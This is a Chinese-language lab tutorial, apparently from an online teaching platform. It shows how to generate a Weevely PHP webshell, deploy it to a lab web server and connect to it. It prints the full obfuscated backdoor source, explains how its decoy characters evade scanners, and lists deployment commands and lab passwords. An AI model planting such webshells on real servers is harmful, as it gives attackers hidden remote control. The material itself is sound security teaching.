






# 使用 Weevely 创建 PHP 挂马文件

## 一、实验简介

### 1.1 实验介绍

由于使用 PHP 编写的网站众多，所以使用 PHP 编写木马程序，也成为了广大黑客们的喜爱。创建 PHP 挂马文件的工具有许多，如使用 Weevely 创建 PHP 挂马文件，WeBaCoo 创建 PHP 木马后门等，每个工具创建的木马程序有着各自的特点。

本实验的主要内容为 Weevely 创建一个 PHP 的挂马文件，使用 PHP 挂马文件感染所要攻击的目标主机。实验的环境为实验楼提供的 Ubuntu 14.04，其中 Ubuntu 作为宿主机，上面安装了 Kali Linux 虚拟机，我们大部分的操作都基于 Kali Linux 虚拟机中。

除了 Kali 虚拟机之外，实验楼还提供了目标靶机 Metasploitable2。而本实验中 Weevely 创建的 PHP 木马，既可以感染宿主机 Ubuntu，也可以感染虚拟机 Metasploitable2。原则上，只要目标靶机能提供 PHP 运行环境即可被感染。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**


### 1.2 主要知识点

在这次的 Weevely 创建 PHP 挂马文件中，实验会先介绍 Weevely 创建的 PHP 挂马文件的原理。原理中会告诉你 Weevely 是什么，Weevely 怎么用，以及 Weevely 的各个参数的含义。对于生成的 PHP 挂马文件，其源码的关键处，都会标有相应的注释，方便大家理解 PHP 木马如何工作。

本实验总体上，是一门纯动手的实验课，对于一些基础概念知识，也会引用一些参考资料，更加详细地解释说明其原理。下面的实验，将会涉及到的知识点主要有：

- Linux 系统的基本操作命令
- Weevely 生成 PHP 挂马文件的操作
- Weevely 各命令的参数意义
- PHP 的基本语法知识
- 渗透成功后的验证命令

### 1.3 实验环境

在实验楼实验环境中，一共提供三台主机，其中一个为宿主机 Ubuntu 14.04，另一个为信息安全人士镇家之宝 Kali Linux，最后一个为常做目标靶机的 Metasploitable2。本实验的所有操作都是在 Kali Linux 和 Ubunut 下进行的。对于目标靶机，同学们也可以使用 Metasploitable2 替代，只要目标主机能够提供 PHP 运行的环境即可。


## 二、启动环境

## 2.1 启动实验环境

在开始进行实验之前，先让我们启动 Kali 虚拟机，启动 Kali 虚拟机程序，需要在终端中输入如下命令。**其中，在输入启动命令的时候，一定要注意，`root@Kali` 中的 K 是`大写`的 K**：

```
# 开启 Kali 虚拟机
sudo virsh start Kali

# 注意，Kali 中 K 为大写字母
ssh root@Kali
```


**注意：等 Kali 启动，输入命令后，要等待一段时间，再对 Kali 进行连接，否则会报错。**`Kali` 的登录密码为 `toor`，登录成功后，如图所示：


**可选：** 本实验的实验环境，除了宿主机可以提供 PHP 运行环境外，备用靶机 Metasploitable2 也可以提供 PHP 环境。如果想利用 Metasploitable2 进行挂载 PHP 木马的同学，可以使用如下命令，在宿主主机 Ubuntu 14.04 中开启 Metasploitable2 虚拟机。接着同在 Ubuntu 中的操作一样，只要把木马文件传至目标靶机网站目录下即可。

```
# 在宿舍主机中，输入如下命令开启 Metasploitable2，接着输入相应密码即可
# Metasploitable2 账号密码分别为： msfadmin/msfadmin

ssh msfadmin@target
```

## 三、原理介绍

### 3.1 原理介绍

##### 1. `Weevely` 是什么？

工具 Weevely 是一款非常有名的 PHP 木马生成工具，其也被叫做 PHP 菜刀，是一款使用 Python 语言编写的 WebShell 工具。Weevely 集 WebShell 生成和连接于一身。值得注意的是，Weevely 是在 Linux 下的一款菜刀代替工，而在 Windows 环境中使用该工具，某些模块无法使用。

关于 Weevely 这款工具，百度百科是这么定义的：

> Weevely 是一个隐形的 PHP 网页的外壳，模拟的远程连接。这是一个 Web 应用程序后开发的重要工具，可用于像一个隐藏的后门，作为一个有用的远程控制台更换管理网络帐户，即使托管在免费托管服务。只是生成并上传“服务器”目标 Web服务器上的 PHP 代码，Weevely 客户端在本地运行 shell 命令传输。

##### 2. `Weevely` 用来干什么？

黑客通常使用工具 Weevely 来生成一个 PHP 木马文件，上传到目标主机网站后，用以感染目标主机，建立起攻击机与目标主机之间的联系。当建立起连接后，黑客再对目标主机进行提权，留后门等其它对目标主机有危害的操作。


##### 3. `Weevely` 的参数含义内容？

在上面介绍了 Weevely 是什么，用来干什么之后，我们再来介绍 Weevely 的参数怎么使用。一般情况下，在 Linux 系统给中，可以使用 `-h` 命令可以查看工具的使用帮助，而这里，可以直接输入 `weevely` 命令即可查看 weevely 工具的参数说明。

```
# 在实验楼的 Kali 终端中，输入如下命令
weevely
```


上图中显示的各个参数，具体的使用语法如下所示：

```
#  连接木马程序
weevely <URL> <password> [cmd]
 
# 加载 session 会话
weevely session <path> [cmd]

# 生成后门代理木马
weevely generate <password> <path>
```

## 四、过程实现

### 4.1 生成 PHP 挂马文件

PHP 木马是在 Web 攻击中，比较常见的一种木马文件。一般情况下，攻击者将生成 PHP 木马，上传至网站的目录下，接着在本机输入攻击命令，建立起攻击机和目标主机两者之间的联系，这其中 PHP 木马充当了控制目标主机的媒介。

上面介绍了 Weevely 的参数怎么使用，接下来我们使用 Weevely 命令来生成 PHP 木马，实现木马生成这一过程。在终端中，输入如下命令：

```
# 生成 php 木马程序
weevely generate hello /root/hello.php
```
这条命令中的各个参数，所代表的含义分别为：

| 参数名称          | 参数代表含义                                                 |
| ----------------- | ------------------------------------------------------------ |
| `hello`           | weevely 连接木马，创建会话，需要密码验证， `hello` 为连接会话时，所需要输入的密码。 |
| `/root/hello.php` | 在攻击者的本地环境中，指定生成木马文件的具体位置，这里为 `/root` 文件夹下。 |


在输入生成 PHP 木马文件命令后，可以看到目录 `/root/`下，已经存在了 PHP 木马文件 `hello.php`：


对于 PHP 木马的源码，我们可以使用 `cat` 命令查看木马文件，在命令行终端中，输入如下命令：

```
# 使用命令，查看木马文件源码
cat /root/hello.php
```




### 4.2 解释 PHP 木马源码

Weevely 的最大特点在于其隐蔽性，不论数据通道和控制通道，都做到很大程度的隐蔽，其生成的木马程序，很难被安全工具发现。对于生成的 PHP 木马文件，由 `cat` 命令可以看到其源码如下：

```
<?php
$A='l{
$u=pa,lrse_url(,l$rr);,lparse_str($u[,l"query,l"],$q),l;
$q=a,lrray_,lval,l,lues($q);preg_mat,l,lch_a';
$y='<$l,l;),l{f,lor($j=0;($,lj<$c&&$i<$l,l),l;,l$j++,l,l,$i++){
$o.=$t{$i}^$k{,l$,lj};}}return ,l,l$o;}
$r=,';
$Q='ll("/([\\w,l])[\\,lw-]+(,l?:;q=0.([,l\\d])),l?,?/",,l$ra,$,lm);i,lf($q&&$m){,l@sess,lion_sta,lrt,l(),l;$s';
$j='=&$_SESS,lION;$,lss,l=,l"substr";$sl="st,lrto,ll,lower,l";$i=$m[1][0],l.$m[1],l[1];$h=$s,ll(,l,l$ss(md5';
$L='($i.$kh),,l0,3),l,l);$f=$sl($ss(md5(,l$,li.$kf),,l0,3));,l$p=,l"";for,l,l($z=,l1;$z<cou,lnt($m[1]);$z';
$S='l$_SERVER;$rr,l=@,l$r["HTTP_R,lE,lFERER"];$ra,l=@$,lr[",l,lHTTP_,lACCEPT_LANGUAGE",l];if(,l,l$rr&&$ra),';
$z=',lrray(",l/",",l+,l"),$ss($s[$i],l,0,$e))),$k)));$o,l=ob_get,l_,lcontent,ls();ob_en,ld,l_clea,ln();$d=';
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));print("<,l$k>$d<,l/$k,l,l>");@sessio,ln,l_destroy();}}}}';
$K='$kh,l="5d,l41";$kf=,l",l402a";f,lunctionx($t,$k,l){$c=st,lrlen,l($k,l);$l=str,llen($t),l;$o,l="";for(,l$i=0;$i';
$m=',l_,lexists(,l$i,$s)),l{$s[$i,l].=$p,l;$e,l,l=strpos($,ls[$i],$,lf);if($e){$k=$,lk,lh.$kf;o,l,lb_start';
$T='();@ev,lal,l(@gzuncompre,lss,l(@x(@ba,lse64_deco,lde(p,lr,leg_replace(arr,l,lay(,l"/_/",",l/-/"),a,l';
$o='++)$p.,l,l=$q[$m[2][$z,l]],l;if(strpos(,l$p,$h),l=,l==0){,l$s[$i]="",l;$p=$ss,l($p,3,l);,l}if(array_key';
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
$I=$C('',$x);$I();
?>

```
在源码中，其`变量名`是随机生成的，所以直接查看代码的变量名，很难查找出有什么规律。感兴趣的同学，可以使用不同名字和密码，多生成几组 PHP 木马进行对比验证。在这堆乱码中，有两处非常关键的代码在倒数第二和第三行，在解释这两行代码之前，我们先看一下变量 `$r`：



```
# 处理过的字符串，夹杂着欺骗字符
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));
```

这里的意思是先将经 Weevely 随机生成，包含着`欺骗字符`的字符串赋值给 `$r`，接着通过函数 `str_replace` 洗掉其中的欺骗符号`,l`（这里使用`洗掉`比较易于理解，欺骗符号也是随机生成），洗掉欺骗符号的具体代码在倒数第二行：

```
# 洗掉欺骗字符，得到真正要执行的函数名称
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
```
对于插在代码中的欺骗符号之一 `,l`，可以看出有这么多（黄色标记的部分），在箭头一的位置，去掉欺骗字符后，就是一个正常的 `if` 语句：




其中对于变量 `$r`，洗掉欺骗符号后（箭头二处），得到关键函数 `base64_encode`，作用是使用 base64 对数据进行编码。在变量 `$x` 之上，也就是倒数第三行，变量 `$C` 的字符串经过函数 `str_replace` 清洗的前后对比为：

```
# 清洗前的字符串
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');

#清洗后的字符串，即 PHP 的 create_function 函数
$C=create_function;
```
在 PHP 中，函数 `create_function` 的功能是创建一个匿名函数传递的参数，并返回一个唯一的名称。所以说，Weevely 是一个隐形 PHP 网页外壳。由阅读生成的 PHP 木马源码代码可以知道。

其原理为 Weevely 随机生成欺骗字符，将欺骗字符随机插入到函数中，最后再用 `str_replace` 函数清洗掉欺骗字符，得到真正的意图函数和字符串。这其中而不直接使用 `str_replace`，是为了避免过多出现 `str_replace` 引起木马查杀程序的注意。精简总结就是，使用欺骗字符混淆程序。


### 4.3 上传 PHP 木马值目标靶机

Weevely 使用欺骗字符，绕过查杀之后，再将字符还原，隐藏真正后门连接程序。弄清楚了 Weevely 工作流程之后，接下来我们将木马上传到目标靶机，进而感染目标靶机，让攻击者在后续中的操作中，取得目标靶机的控制权。在 Kali 终端中输入命令，将 PHP 木马文件 `hello.php` 传至目标靶机：

```
# 使用 scp 命令，进行文件传输，也可以使用 ftp 进行，只要将文件上传到目标靶机即可
scp hello.php shiyanlou@192.168.122.1:/tmp
```
**注意：密码是 `shiyanlou`**


实验楼的 Ubuntu 14.04 环境下，浏览器地址栏中输入`127.0.0.1`，默认开启的是 `nginx` 服务。所以我们应该先关掉 `nginx` 服务，开启 `apache` 服务，提供 PHP 运行环境，用以测试 PHP 木马：



```
# 关闭 nginx 服务命令
sudo service nginx stop

# 开启 apache2 服务，提供 PHP 运行环境
sudo service apache2 start
```


接着使用复制命令，将 PHP 木马文件，复制到网站的根目录下：

```
# 复制木马文件到网站根目录下
sudo cp /tmp/hello.php /var/www/html/
```


### 4.4 通过 weevely 创建会话

当木马文件，上传到网站的根目录后，Weevely 创建会话的准备工作已经完成。接着我们将使用 Weevely 创建会话，在 Kali 终端中，使用 weevely 命令，输入目标主机木马地址和会话的密码**`注意：`不要忘记会话通道密码，密码在生成的时候是自定义的**：

```
# 如果是使用 Metasploitable2 作为目标靶机。则步骤一样，改掉相应的 IP 地址。Metasploitable2 账号密码为：msfadmin/msfadmin
# 命令格式如下，url 为木马地址， password 为生成木马的密码
# weevely <url> <password>
weevely http://192.168.122.1/hello.php hello
```

在这里要稍等一会，成功后如下所示：



### 4.5 查看系统信息

由上图可知，使用 Weevely 创建会话成功，攻击者已经成功渗透入了目标靶机。输入如下命令，可以验证当前用户，以及当前的路径，路径下的文件名和目标靶机信息：

```
# 查看当前用户 id
id

# 查看当前路径
pwd

# 查看当前路径下的文件
ls

# 查看当前系统的信息
ifconfig
```




## 五、总结和思考

### 5.1 总结和思考

本实验主要介绍了如何使用 Weevely 创建 PHP 挂马文件。在实验中，分别介绍了 Weevely 是什么，用来干什么，以及 Weevely 的参数含义，使用 Weevely 创建 PHP 木马程序的流程。对于 Weevely 生成的 PHP 木马源码的关键地方进行了还原。

其主要内容为 Weevely 先生成随机的欺骗字符，接着再对生成的字符进行清洗，这一过程绕过木马查杀程序，实现会话通道连接。本实验的主要知识点以及流程为：

- Linux 系统的基本操作命令
- Weevely 生成 PHP 挂马文件的操作
- Weevely 各命令的参数意义
- PHP 基本语法知识
- 渗透成功后的验证命令


## 六、课后作业

### 6.1 课后作业

在学习完本课程后，同学们对 Kali 下使用 Weevely 也有了一定的了解。对于上面的实验，如果有哪些地方不清楚，欢迎提问，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流。最后请同学们对本实验的如下拓展问题进行思考：

- Weevely 的欺骗字符如何原生手动实现代码？
- 在渗透入目标主机后，非 root 用户下如何进行提权？
- 创建木马程序除了 Weevely 还有哪些工具?
